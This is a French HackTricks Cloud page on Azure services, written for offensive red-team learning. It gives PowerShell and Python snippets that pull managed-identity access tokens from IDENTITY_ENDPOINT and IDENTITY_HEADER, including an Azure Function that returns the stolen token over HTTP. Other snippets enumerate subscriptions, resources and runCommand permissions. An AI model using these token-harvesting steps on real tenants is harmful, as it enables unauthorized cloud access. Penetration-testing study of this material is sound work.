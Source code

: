 # Az - Services

{% hint style="success" %}
Apprenez et pratiquez AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Portails

Vous pouvez trouver la liste des **portails Microsoft sur** [**https://msportals.io/**](https://msportals.io/)

### Requêtes brutes

#### Azure API via Powershell

Obtenez **access\_token** à partir de **IDENTITY\_HEADER** et **IDENTITY\_ENDPOINT** : `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`.

Ensuite, interrogez l'API REST Azure pour obtenir l'**ID d'abonnement** et plus encore.
```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
#### Version Azure API via Python

```python
import requests

# Remplacez 'your_subscription_id' et 'your_resource_group' par vos informations
subscription_id = 'your_subscription_id'
resource_group = 'your_resource_group'
api_version = '2021-04-01'
resource_provider = 'Microsoft.Compute'
resource_type = 'virtualMachines'
resource_name = 'your_vm_name'

# URL de l'API
url = f'https://management.azure.com/subscriptions/{subscription_id}/resourceGroups/{resource_group}/providers/{resource_provider}/{resource_type}/{resource_name}?api-version={api_version}'

# En-têtes de la requête
headers = {
    'Authorization': 'Bearer ' + 'your_access_token',
    'Content-Type': 'application/json'
}

# Effectuer la requête GET
response = requests.get(url, headers=headers)

# Afficher la réponse
print(response.json())
```

#### Utilisation de l'API Azure avec PowerShell

```powershell
# Remplacez 'your_subscription_id' et 'your_resource_group' par vos informations
$subscriptionId = "your_subscription_id"
$resourceGroup = "your_resource_group"
$apiVersion = "2021-04-01"
$resourceProvider = "Microsoft.Compute"
$resourceType = "virtualMachines"
$resourceName = "your_vm_name"

# URL de l'API
$url = "https://management.azure.com/subscriptions/$subscriptionId/resourceGroups/$resourceGroup/providers/$resourceProvider/$resourceType/$resourceName?api-version=$apiVersion"

# En-têtes de la requête
$headers = @{
    "Authorization" = "Bearer your_access_token"
    "Content-Type" = "application/json"
}

# Effectuer la requête GET
$response = Invoke-RestMethod -Uri $url -Headers $headers -Method Get

# Afficher la réponse
$response | ConvertTo-Json
```
```python
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

print("[+] Management API")
cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])

print("\r\n[+] Graph API")
cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
print(json.loads(val)["access_token"])
print("ClientID/AccountID: "+json.loads(val)["client_id"])
```
ou à l'intérieur d'une fonction Python :
```python
import logging, os
import azure.functions as func

def main(req: func.HttpRequest) -> func.HttpResponse:
logging.info('Python HTTP trigger function processed a request.')
IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']
cmd = 'curl "%s?resource=https://management.azure.com&apiversion=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)
val = os.popen(cmd).read()
return func.HttpResponse(val, status_code=200)
```
## Liste des Services

**Les pages de cette section sont classées par service Azure. Vous y trouverez des informations sur le service (comment il fonctionne et ses capacités) ainsi que sur la manière d'énumérer chaque service.**

{% hint style="success" %}
Apprenez et pratiquez AWS Hacking :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez GCP Hacking : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
